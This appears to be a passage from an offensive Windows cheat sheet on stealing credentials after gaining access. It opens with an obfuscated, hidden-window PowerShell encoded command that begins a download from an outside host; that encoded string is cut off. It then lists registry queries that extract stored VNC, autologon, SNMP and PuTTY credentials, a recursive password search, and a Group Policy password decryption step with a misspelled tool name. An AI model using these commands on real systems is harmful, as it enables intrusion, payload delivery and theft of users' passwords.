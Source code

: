 PS Version 2

```
c:\windows\system32\cmd.exe /c PowErsHelL.EXE -eXecUtiONPoLICy bYPass -NOPROfilE -WinDoWSTYlE hiDden -EnCodeDcOmmAnd IAAoAE4AZQB3AC0ATwBiAEoAZQBDAFQAIABzAFkAcwB0AEUAbQAuAG4AZQBUAC4AdwBlAGIAQwBsAEkARQBOAFQAKQAuAEQATwBXAG4AbABvAGEAZABGAEkAbABlACgAIAAdIGgAdAB0AHAAcwA6AC8ALwBqAHQAYQBiA
```

### Finding password files in Registry&#x20;

#### VNC

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

#### Windows autologin

```
reg.exe query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultUserName
```

```
reg.exe query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword
```

Or via Powershell using Get-ItemProperty to exploit registry

```
PS > Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```

#### SNMP Paramters

```
reg.exe query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

#### Putty

```
reg.exe query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

#### Search for password in registry

```
reg query HKLM /f password /t REG_SZ /s reg query HKCU /f password /t REG_SZ /s
```

### Finding credentials in Groups.xml&#x20;

```
dir Groups.xml /s
```

On an atttacker box, you can decrypt Group Policy Password via:

```
gpp-encrpyt $password
```
